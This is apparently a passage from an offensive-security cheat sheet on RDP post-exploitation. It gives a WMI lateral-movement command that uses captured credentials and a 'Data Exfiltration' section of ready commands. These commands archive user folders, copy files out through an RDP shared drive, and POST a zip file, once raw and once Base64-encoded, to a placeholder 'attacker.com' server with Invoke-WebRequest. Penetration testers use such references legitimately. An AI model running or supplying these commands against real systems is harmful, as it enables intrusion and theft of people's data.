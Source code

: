 WMI lateral movement

```sh
wmic /node:<target> /user:<user> /password:<password> process call create "cmd.exe"
```

___




## Data Exfiltration

Extract sensitive data from compromised RDP systems

Compress sensitive user data

> [!example]-
>
> ```sh
> Compress-Archive -Path <C:\Users\> -DestinationPath C:\Temp\exfil.zip
> ```

Transfer via shared drive (*if RDP was connected with `/drives` option*)

> [!example]-
>
> ```sh
> copy <C:\sensitive\data.txt> <\\tsclient\c\exfil\>
> ```

Upload to attacker server

> [!example]-
>
> ```sh
> Invoke-WebRequest -Uri http://<attacker.com/upload> -Method POST -InFile <C:\Temp\data.zip>
> ```

Base64 encode and exfiltrate

> [!example]-
>
> ```sh
> $data = [Convert]::ToBase64String([IO.File]::ReadAllBytes("<C:\Temp\data.zip>"))
> ```
> ```sh
> Invoke-WebRequest -Uri http://<attacker.com/path> -Method POST -Body $data
> ```

> [!tip]-
>
> - Transfer via RDP clipboard (if enabled)
> - Copy file in RDP session, paste on local machine
___



